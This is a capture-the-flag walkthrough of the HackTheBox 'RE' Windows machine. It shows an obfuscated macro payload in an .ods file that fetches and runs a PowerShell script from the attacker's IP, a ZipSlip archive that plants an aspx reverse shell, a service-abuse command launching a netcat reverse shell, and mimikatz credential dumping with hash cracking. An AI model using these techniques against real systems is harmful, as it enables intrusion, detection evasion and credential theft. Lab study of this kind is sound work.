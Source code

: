 # RE - HackTheBox
## Windows - Hard

### User
We add `re.htb` and `reblog.htb` to `/etc/hosts`. On `reblog.htb`, we see blog post saying that someone will look at `ods` files on a Dropbox and run them. It is also explained how to detect malicious `ods` files. On `smb`, there is a share `malware_dropbox`. The path is clear: create a malicious `ods` file undetectable with the methods explained in the blog post, put it in the `malware_dropbox` share, and wait for someone to run it. 

To create the `ods` file, we start simple by pinging ourselves: 
```
Shell(&quot;ping.exe 10.10.14.175&quot;)
```
which works. Then, we try PowerShell commands to get a reverse shell, but they do not work, since they probably don't pass the tests. Looking around for obfuscation techniques, we see that words in a PowerShell commands can have `^` that count as empty in the command. Our payload is then:
```
Shell(&quot;cmd.exe /C &quot;&quot; powershell.exe i^ex(New-Obj^ect Net.Web^Client).download^string('http://10.10.14.175/shell.ps1')&quot;&quot;&quot;)
```
which gives us a shell as `luke`, along with `root.txt`.

(Note: The easiest way to upload a file on the `malware_dropbox` share is through `nautilus`, where we connect with user `root`, password `whatever`. It didn't work well with `smbmap` or `smbclient`.

### Root
In `C:\Users\luke\Documents\process_samples.ps1` is explained how the `ods` processing is done. In a comment in this file, it is written that an *upstream process* may expect `rar` archives in `C:\Users\luke\documents\ods\`. We try to put a malicious `rar` in there. We can see that the `rar` extraction is vulnerable to ZipSlip, by putting the archive from `python evilarc.py -p "users\public\" test_file; mv evil.zip evil.rar` in the `ods` folder, and seeing `test_file` in `c:\users\public` 10 seconds later. This file will be owned by `cam` who has write access to the IIS folder `C:\inetpub`.

We thus put a `aspx` reverse shell in `C:\inetpub\wwwroot\blog\` and get a shell as user `IIS`. 

We run `PowerUp.ps1` as user `iis` and see the following:
```
ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
```
We thus run `Invoke-ServiceAbuse -Name 'UsoSvc' -Command C:\users\public\nc.exe 10.10.14.175 9001 -e cmd.exe` and get a shell as `NT Authority \ System`. We type `root.txt` but get `Permission Denied` since the file is encrypter.

We uplaod `mimikatz.exe` on the box and run: `mimikatz # sekurlsa::logonpasswords` to get the NTLM hash of user `coby` (who can read `root.txt`). We crack this has with `hashcat -m 1000 coby-hash /usr/share/wordlists/rockyou.txt` and find his password `championship2005`.

Then, we follow this [tutorial](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-decrypt-EFS-files) for user `coby`, after which we can finally type `root.txt`!

